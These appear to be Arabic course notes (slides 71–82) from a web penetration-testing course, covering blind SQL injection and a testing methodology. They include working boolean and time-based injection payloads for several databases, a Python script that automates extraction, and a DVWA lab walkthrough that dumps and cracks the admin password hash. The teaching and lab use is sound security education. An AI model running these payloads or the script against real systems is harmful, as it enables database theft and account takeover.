



# 🎓 الجزء الرابع: Blind SQL Injection + منهجية الاختبار
## Slides 71 → 82

---

## 📌 Slide 71: Exploiting Blind SQL Injection
### عنوان القسم: استغلال Blind SQL Injection

دلوقتي بندخل في **أصعب أنواع SQLi**: الـ Blind SQL Injection! 🔥

> في الأنواع اللي فاتت (Error-Based و Union-Based) كانت النتيجة **بتظهر مباشرةً** في الصفحة. الـ Blind SQLi مختلف تماماً — **مفيش نتيجة ظاهرة**. لازم تستنتج المعلومات من **سلوك التطبيق**.

### ليه اسمه "Blind"?
لأنك **أعمى** حرفياً — مش شايف النتيجة! بتعتمد على ملاحظة:
- هل الصفحة اتغيرت (Boolean-Based)
- هل الرد أخد وقت أطول (Time-Based)

---

## 📌 Slide 72: Blind SQL Injection - Concept

> **Blind SQL Injection** بيحصل لما التطبيق **مش بيرجع نتائج الـ SQL query** ومش بيعرض رسائل خطأ. المهاجم بيقدر يعرف معلومات عن الداتابيز من خلال **إرسال أسئلة True/False** ومراقبة **سلوك التطبيق**.

### مقارنة بين In-Band و Blind:

| الجانب | In-Band SQLi | Blind SQLi |
|--------|-------------|------------|
| **النتيجة** | بتظهر مباشرةً في الصفحة | مفيش نتيجة ظاهرة |
| **رسائل الخطأ** | موجودة | مخفية |
| **السرعة** | سريع جداً | بطيء (حرف حرف) |
| **الصعوبة** | سهل | صعب نسبياً |
| **الانتشار** | أقل (التطبيقات الحديثة بتخفي الأخطاء) | **أكثر انتشاراً!** |

### الخلاصة المهمة:
> التطبيقات الحديثة بتخفي رسائل الخطأ (Custom Error Pages). يعني **Blind SQLi أكثر انتشاراً** من Error-Based في الحياة الحقيقية! لو ركزت على In-Band بس — هتفوّت ثغرات كتير.

---

## 📌 Slide 73: Boolean-Based Blind SQL Injection

> **Boolean-Based Blind SQLi** بيعتمد على إن المهاجم بيحقن **شروط منطقية** (True/False) وبيراقب **تغير محتوى الصفحة**.

### إزاي بيشتغل:



### المقارنة العملية:
```sql
-- TRUE condition:
http://target.com/page?id=1' AND 1=1 --
-- النتيجة: الصفحة ظهرت عادي ✅

-- FALSE condition:
http://target.com/page?id=1' AND 1=2 --
-- النتيجة: الصفحة مختلفة أو فاضية ❌

-- لو فيه فرق = SQLi مؤكدة!
```

---

## 📌 Slide 74: Boolean-Based Blind - Data Extraction

### استخراج البيانات حرف بحرف:

```sql
-- هل أول حرف من اسم الداتابيز = 'a'?
?id=1' AND SUBSTRING(database(),1,1) = 'a' --
-- الصفحة مختلفة = FALSE → مش 'a'

-- هل أول حرف = 'd'?
?id=1' AND SUBSTRING(database(),1,1) = 'd' --
-- الصفحة عادية = TRUE → الحرف الأول 'd'! ✅

-- هل تاني حرف = 'v'?
?id=1' AND SUBSTRING(database(),2,1) = 'v' --
-- TRUE! → اسم الداتابيز بيبدأ بـ 'dv'

-- وهكذا لحد ما تكمل الاسم كله: 'dvwa'
```

### منهجية أسرع — البحث الثنائي (Binary Search):

```sql
-- بدل ما تجرب كل حرف (26 محاولة)
-- استخدم ASCII values والمقارنة الرقمية:

-- هل أول حرف أكبر من 'm' (ASCII 109)?
?id=1' AND ASCII(SUBSTRING(database(),1,1)) > 109 --
-- FALSE → الحرف بين 'a' و 'm'

-- هل أكبر من 'f' (ASCII 102)?
?id=1' AND ASCII(SUBSTRING(database(),1,1)) > 102 --
-- FALSE → الحرف بين 'a' و 'f'

-- هل أكبر من 'c' (ASCII 99)?
?id=1' AND ASCII(SUBSTRING(database(),1,1)) > 99 --
-- TRUE → الحرف 'd', 'e', أو 'f'

-- هل = 'd' (ASCII 100)?
?id=1' AND ASCII(SUBSTRING(database(),1,1)) = 100 --
-- TRUE! → الحرف الأول = 'd'
```

> **Binary Search بيقلل المحاولات من 26 لـ ~7 لكل حرف!** وده بيفرق كتير في الوقت.

---

## 📌 Slide 75: Time-Based Blind SQL Injection

> **Time-Based Blind SQLi** بيُستخدم لما **حتى الصفحة مش بتتغير** بين True و False. المهاجم بيحقن **تأخير زمني** (SLEEP/WAITFOR) وبيقيس **وقت الاستجابة**.

### إزاي بيشتغل:



### Payloads لقواعد بيانات مختلفة:

| الداتابيز | Payload | الشرح |
|-----------|---------|-------|
| **MySQL** | `' OR IF(condition, SLEEP(5), 0) --` | `SLEEP()` بتأخر بالثواني |
| **MSSQL** | `'; WAITFOR DELAY '0:0:5' --` | `WAITFOR DELAY` بتأخر الاستجابة |
| **PostgreSQL** | `'; SELECT pg_sleep(5) --` | `pg_sleep()` الخاصة بـ PostgreSQL |
| **Oracle** | `' OR 1=DBMS_PIPE.RECEIVE_MESSAGE('a',5) --` | أداة الـ PIPE المتاخرة |

### استخراج بيانات بـ Time-Based:
```sql
-- هل أول حرف من اسم الداتابيز = 'd'?
?id=1' OR IF(SUBSTRING(database(),1,1)='d', SLEEP(5), 0) --
-- لو الرد أخد 5 ثواني = TRUE → أول حرف 'd'!
-- لو الرد جه فوراً = FALSE → مش 'd'
```

> **🔴 من واقع الـ Pentesting:** Time-Based أبطأ نوع (كل حرف بياخد Request + وقت الانتظار). عشان كده في الاختبارات الحقيقية، اكتشف الثغرة يدوي وبعدين سلّم SQLMap المهمة!

---

## 📌 Slide 76: Demo - Exploiting Blind SQL Injection

### ديمو عملي: استغلال Blind SQLi

خطوات الاستغلال العملي:

```
1. 🔍 تأكيد وجود Blind SQLi:
   └── ' AND 1=1 -- → الصفحة عادية
   └── ' AND 1=2 -- → الصفحة مختلفة
   └── Confirmed! ✅

2. 📊 تحديد طريقة الاستغلال:
   └── الصفحة بتتغير? → Boolean-Based
   └── الصفحة ثابتة? → Time-Based

3. 💉 استخراج البيانات:
   └── SUBSTRING + Binary Search
   └── حرف حرف

4. ⚙️ أتمتة:
   └── SQLMap أو Python script
```

### مثال Python Script للأتمتة:

```python
import requests
import string

target = "http://target.com/page.php"
charset = string.ascii_lowercase + string.digits + "_"
extracted = ""

for position in range(1, 50):
    for char in charset:
        payload = f"1' AND SUBSTRING(database(),{position},1)='{char}' --"
        response = requests.get(target, params={"id": payload})
        
        if "Welcome" in response.text:  # True condition marker
            extracted += char
            print(f"[+] Found: {extracted}")
            break
    else:
        break  # No match = end of string

print(f"[✅] Database name: {extracted}")
```

---

## 📌 Slide 77: SQL Injection Testing Methodology
### عنوان القسم: منهجية اختبار SQL Injection

> "من غير منهجية، أنت بتتحرك عشوائي. المنهجية بتخليك **تغطي كل حاجة** ومتنساش حاجة."

---

## 📌 Slide 78: SQL Injection Testing Methodology (Framework)

### الإطار العام لاختبار SQLi:



---

## 📌 Slide 79: Testing Methodology Details

### تفاصيل كل خطوة:

**Step 1: Reconnaissance (اكتشاف نقاط الإدخال)**
- حدد كل الـ URL Parameters
- حدد كل Form Fields (ظاهرة ومخفية)
- حدد Cookies و HTTP Headers
- استخدم Burp Spider أو OWASP ZAP Crawler

**Step 2: Input Testing (اختبار المدخلات)**
```sql
-- لكل Input Point، جرب:
'               -- Single quote
"               -- Double quote
--              -- SQL comment
#               -- MySQL comment
' OR '1'='1    -- Basic Boolean
```

**Step 3: Confirm Vulnerability (تأكيد الثغرة)**
```sql
-- المقارنة الذهبية:
Input: ' AND 1=1 --    → الصفحة عادية = TRUE
Input: ' AND 1=2 --    → الصفحة مختلفة = FALSE
-- لو فيه فرق = CONFIRMED! ✅
```

**Step 4: Identify SQLi Type (تحديد النوع)**

| المؤشر | النوع |
|--------|-------|
| ظهرت رسالة خطأ مفصلة | Error-Based |
| الصفحة بتتغير بين True/False | Boolean-Based Blind |
| الصفحة ثابتة بس الوقت بيتغير | Time-Based Blind |
| UNION SELECT بيشتغل | Union-Based |

**Step 5: Exploitation**
- استخدم التقنية المناسبة حسب النوع
- استخرج: Database → Tables → Columns → Data

**Step 6: Documentation**
- وثّق كل خطوة بـ Screenshots
- اكتب Proof of Concept واضح
- حدد الـ Impact والـ Severity

---

## 📌 Slide 80: SQLi Checklist

### قائمة مرجعية شاملة لاختبار SQLi:

**الأسئلة الأساسية:**
- ✅ هل حددت كل نقاط الإدخال؟
- ✅ هل جربت String-Based و Integer-Based؟
- ✅ هل اختبرت Error-Based؟
- ✅ هل اختبرت Boolean-Based Blind؟
- ✅ هل اختبرت Time-Based Blind؟
- ✅ هل جربت UNION-Based؟
- ✅ هل حددت نوع الداتابيز (MySQL, MSSQL, Oracle, etc.)؟
- ✅ هل جربت Payloads مخصصة لنوع الداتابيز؟
- ✅ هل اختبرت الـ Cookies والـ HTTP Headers؟
- ✅ هل اختبرت الـ Hidden Fields؟

> **🔴 من واقع الـ Pentesting:** خلي الـ Checklist دي جزء من كل Pentest بتعمله. اللي بيفوّت ثغرات هو اللي مش بيتبع منهجية!

---

## 📌 Slide 81: Lab Environment Setup

### تحضير البيئة التجريبية:

| الأداة | الغرض |
|--------|-------|
| **DVWA** (Damn Vulnerable Web App) | تطبيق ويب عامداً ضعيف |
| **Burp Suite** | Proxy لاعتراض وتعديل الـ Requests |
| **SQLMap** | أتمتة اكتشاف واستغلال SQLi |
| **Kali Linux** | نظام التشغيل مع كل الأدوات جاهزة |

### خطوات التحضير:
```bash
# 1. شغل DVWA على Docker:
docker run -d -p 80:80 vulnerables/web-dvwa

# 2. شغل Burp Suite وجهّز الـ Proxy:
# Proxy → Options → Listener: 127.0.0.1:8080
# Browser → Proxy Settings: 127.0.0.1:8080

# 3. ادخل DVWA:
# URL: http://localhost
# Login: admin / password
# Security Level: Low → Medium → High
```

---

## 📌 Slide 82: Demo - SQL Injection Testing Methodology

### ديمو عملي: تطبيق المنهجية الكاملة

المحاضر بيستعرض العملية كاملة من الألف للياء على DVWA:

```
1. 🔍 Reconnaissance:
   └── اكتشاف Search box + URL parameter "id"

2. 💉 Testing:
   └── id=1' → Error!
   └── id=1' AND 1=1 -- → عادي
   └── id=1' AND 1=2 -- → مختلف
   └── Confirmed: Boolean-Based + Error-Based

3. 🔬 Fingerprinting:
   └── Error message: "MySQL"
   └── version(): 5.7.x

4. 💀 Exploitation:
   └── ORDER BY → 2 columns
   └── UNION SELECT 1,2 → Column 2 visible
   └── UNION SELECT 1,database() → 'dvwa'
   └── UNION SELECT 1,GROUP_CONCAT(table_name)
       FROM information_schema.tables
       WHERE table_schema='dvwa'
       → users, guestbook
   └── UNION SELECT 1,GROUP_CONCAT(user,0x3a,password)
       FROM users
       → admin:5f4dcc3b5aa765d61d8327deb882cf99

5. 🔓 Post-Exploitation:
   └── MD5 Hash → cracked: 'password'
   └── Login as admin → Full Access! 💀
```

---

## 🎯 ملخص الجزء الرابع

| الموضوع | الشرح | الأهمية |
|---------|-------|---------|
| **Boolean-Based Blind** | استنتاج من تغير الصفحة (True/False) | الأكثر انتشاراً في التطبيقات الحديثة |
| **Time-Based Blind** | استنتاج من وقت الاستجابة (SLEEP) | بيشتغل حتى لو الصفحة مش بتتغير |
| **Binary Search** | تقليل المحاولات من 26 لـ 7 لكل حرف | أسرع بكتير من الـ Linear Search |
| **Testing Methodology** | 6 خطوات: Recon → Test → Confirm → Identify → Exploit → Document | بدون منهجية هتفوّت ثغرات |
| **SQLi Checklist** | قائمة مرجعية لتغطية كل الحالات | لازم تستخدمها في كل Pentest |

### 🔧 أهم الـ Key Takeaways:

```
✅ Blind SQLi أكثر انتشاراً من In-Band في التطبيقات الحديثة
✅ Boolean-Based: لاحظ تغير الصفحة
✅ Time-Based: قيس وقت الاستجابة (SLEEP)
✅ Binary Search بيوفر ~70% من الوقت
✅ المنهجية > الخبرة — اتبع خطوات منظمة
✅ بعد الاكتشاف اليدوي → سلّم SQLMap المهمة
```

> 📝 **الجزء الجاي:** هندخل في **SQLMap** — الأداة اللي بتعمل كل اللي فوق ده **تلقائي**! من الاكتشاف لحد الاستغلال الكامل. 🛠️
